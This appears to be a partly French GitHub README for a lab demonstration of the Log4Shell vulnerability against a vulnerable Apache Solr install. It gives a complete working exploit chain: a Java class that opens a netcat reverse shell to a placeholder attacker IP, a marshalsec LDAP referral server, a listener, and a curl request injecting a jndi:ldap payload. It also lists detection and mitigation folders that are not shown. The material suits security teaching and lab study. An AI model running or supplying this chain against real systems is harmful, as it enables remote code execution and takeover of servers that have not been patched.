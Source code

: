 # ENI Veille SSI Log4Shell

Pour réalisez l'attaque présente dans la vidéo, vous devez créez 2 machines virtuels

Dans le première machine qui sera celle de la victime, vous devrez installer une version vulnérable de Solr

## 1. Install Java on victim
Install Java.
```
$ sudo apt install default-jdk -y
```
Verify the Java installation.
```
$ java -version
```
Download Solr :
```
wget https://archive.apache.org/dist/lucene/solr/7.7.3/solr-7.7.3-src.tgz 
```

Install Apache Solr.
```
$ sudo bash solr-7.7.3/bin/install_solr_service.sh solr-7.7.3-src.tgz 
```
Check the status of the Apache Solr service.

```
$ sudo systemctl status solr
```
Enable the Apache Solr service to start on system boot.
```
$ sudo systemctl enable solr
```
Allow port 8983 through the UFW firewall.
```
$ sudo ufw allow 8983
```
To access the Apache Solr web interface, go to your browser and enter http://serverIP:8983.

## 2 Prepare attack :

The first order of business however is obtaining the LDAP Referral Server. We will use the marshalsec utility offered at https://github.com/mbechler/marshalsec

## exploit java :
```
public class Exploit {
    static {
        try {
            java.lang.Runtime.getRuntime().exec("nc -e /bin/bash YOUR.ATTACKER.IP.ADDRESS 4444");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```

Compiler le code java :
```
javac Exploit.java -source 8 -target 8
```

## Attack

Création du serveur python :
```
python3 -m http.server
```

Prepare a netcat listener on any port of your choosing :

```
nc -lnvp 4444
````
Execut ldap server :
```
java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://YOUR.ATTACKER.IP.ADDRESS:8000/#Exploit"
```

Attack :
```
curl 'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://YOUR.ATTACKER.IP.ADDRESS:1389/Exploit\}'
```

## Repository contents

| Directory                          | Purpose |
|:-----------------------------------|:--------|
| [hunting](hunting/README.md)       | Contains info regarding hunting for exploitation |
| [iocs](iocs/README.md)             | Contains any Indicators of Compromise, such as scanning IPs, etc |
| [detection & mitigation](detection_mitigation/README.md)   | Contains info regarding detection and mitigation, such as regexes for detecting scanning activity and more |
| [scanning](scanning/README.md)     | Contains references to methods and tooling used for scanning for the Log4j vulnerability |
| [software](software/README.md)     | Contains a list of known vulnerable and not vulnerable software |
| [tools](tools/README.md)           | Contains a list of tools for automatically parsing info on this repo |

